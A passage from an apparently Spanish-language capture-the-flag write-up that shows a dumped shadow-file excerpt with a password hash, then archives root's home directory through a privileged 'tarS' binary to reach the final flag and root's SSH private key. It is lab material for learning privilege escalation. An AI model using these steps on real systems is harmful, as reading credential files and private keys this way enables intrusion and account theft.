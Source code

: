 ```bash
polkitd:!!:18440::::::
sshd:!!:18440::::::
postfix:!!:18440::::::
chrony:!!:18440::::::
apache:!!:18440::::::
admin:$6$QeT4IOER$tHg/DAvc5NegomFKFryL5Xe7Od05z7CkYYs9sdRQaQVnJYvsXm2tQljaUhgXVMG8jXaChhhmny6MhD2K5jFXF/:18440:0:99999:7:::
mysql:!!:18440::::::
```

Con esta información podemos intentar crackear el hash de root. Pero como es un proceso largo y costoso, vamos a ver si podemos avanzar en otra dirección.

-------------------------------------------------------------------------------

También podemos obtener todos los archivos del directorio de root.

```bash
tarS -r /root -f pepa.tar
```

y metemos todo el contenido del directorio de root en dicho fichero.
Luego para listar el contenido de dicho fichero:

```bash
> tarS -tvf pepa.tar | grep -v ".cache"
```

```bash
dr-xr-x--- root/root         0 2020-06-28 00:37 root/
-rw-r--r-- root/root        18 2013-12-29 02:26 root/.bash_logout
-rw-r--r-- root/root       176 2013-12-29 02:26 root/.bash_profile
-rw-r--r-- root/root       176 2013-12-29 02:26 root/.bashrc
-rw-r--r-- root/root       100 2013-12-29 02:26 root/.cshrc
-rw-r--r-- root/root       129 2013-12-29 02:26 root/.tcshrc
-rw------- root/root      1262 2020-06-27 21:43 root/anaconda-ks.cfg
drwxr----- root/root         0 2020-06-27 22:55 root/.pki/
drwxr----- root/root         0 2020-06-27 22:55 root/.pki/nssdb/
lrwxrwxrwx root/root         0 2020-06-27 22:58 root/.bash_history -> /dev/null
lrwxrwxrwx root/root         0 2020-06-27 22:58 root/.mysql_history -> /dev/null
drwxr-xr-x root/root         0 2020-06-27 23:20 root/.config/
drwxr-xr-x root/root         0 2020-06-27 23:14 root/.config/composer/
-rw-r--r-- root/root        13 2020-06-27 23:14 root/.config/composer/.htaccess
drwx------ root/root         0 2020-06-27 23:20 root/.config/htop/
drwxr-xr-x root/root         0 2020-06-27 23:14 root/.local/
drwxr-xr-x root/root         0 2020-06-27 23:14 root/.local/share/
drwxr-xr-x root/root         0 2020-06-27 23:14 root/.local/share/composer/
-rw-r--r-- root/root        13 2020-06-27 23:14 root/.local/share/composer/.htaccess
-rwx------ root/root       278 2020-06-28 00:03 root/root-final-flag.txt
drwx------ root/root         0 2020-06-28 00:35 root/.ssh/
-rw------- root/root      3243 2020-06-28 00:35 root/.ssh/id_rsa
-rw-r--r-- root/root       744 2020-06-28 00:35 root/.ssh/id_rsa.pub
-rw-r--r-- root/root       744 2020-06-28 00:35 root/.ssh/authorized_keys
-rw------- root/root      5210 2020-06-28 00:37 root/.viminfo
```
